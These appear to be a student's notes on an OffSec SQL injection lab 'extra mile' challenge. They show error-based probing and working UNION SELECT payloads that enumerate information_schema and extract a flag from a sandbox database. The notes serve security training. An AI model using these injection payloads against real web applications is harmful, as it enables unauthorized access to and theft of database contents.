 (Microsoft, 2021), [https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15) [↩︎](https://portal.offsec.com/courses/web-200-28380/learning/sql-injection-30958/exploiting-sql-injection-31322/remote-code-execution-31048#fnref-local_id_135-1)
(Microsoft, 2021), [https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver15](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver15) [↩︎](https://portal.offsec.com/courses/web-200-28380/learning/sql-injection-30958/exploiting-sql-injection-31322/remote-code-execution-31048#fnref-local_id_135-2)


----------------

#### 8.3.6 Extra Miles

Go to `http://sql-sandbox/extramile/` for the following extra mile challenges.

1. `OS{extraMileSecretTableFlag}`
![[Pasted image 20240822125213.png]]
Starting point
![[Pasted image 20240822121310.png]]
inserting `'` and submitting into the message field
![[Pasted image 20240822121410.png]]
refreshing the page now shows `'` as well as `id=8`
![[Pasted image 20240822121503.png]]
throwing a `'` into the `id=` parameter shows `fetch_all` and `mysqli` - potentially `mysql` being used
![[Pasted image 20240822121742.png]]
so the query being utilized is `http://sql-sandbox/extramile/index.php?id=2 OR 1=1--` which gets converted to url encoding
this shows all the fields

Might look something like this
`SELECT id, message, price FROM menu WHERE id =`
![[Pasted image 20240822122518.png]]
command utilized to grab the `table` names from the current `database`
```sql
http://sql-sandbox/extramile/index.php?id=2 UNION SELECT 1, table_name FROM information_schema.tables WHERE table_schema=database()--
```
![[Pasted image 20240822124417.png]]
command utilized to grab the `column` names from the current `database`
```sql
http://sql-sandbox/extramile/index.php?id=2 UNION SELECT NULL, column_name from information_schema.columns where table_schema = database() and table_name = 'flags'--
```
![[Pasted image 20240822124507.png]]
Grabbing the flag
```sql
http://sql-sandbox/extramile/index.php?id=2 UNION SELECT 1, flag from flags--
```
![[Pasted image 20240822124659.png]]
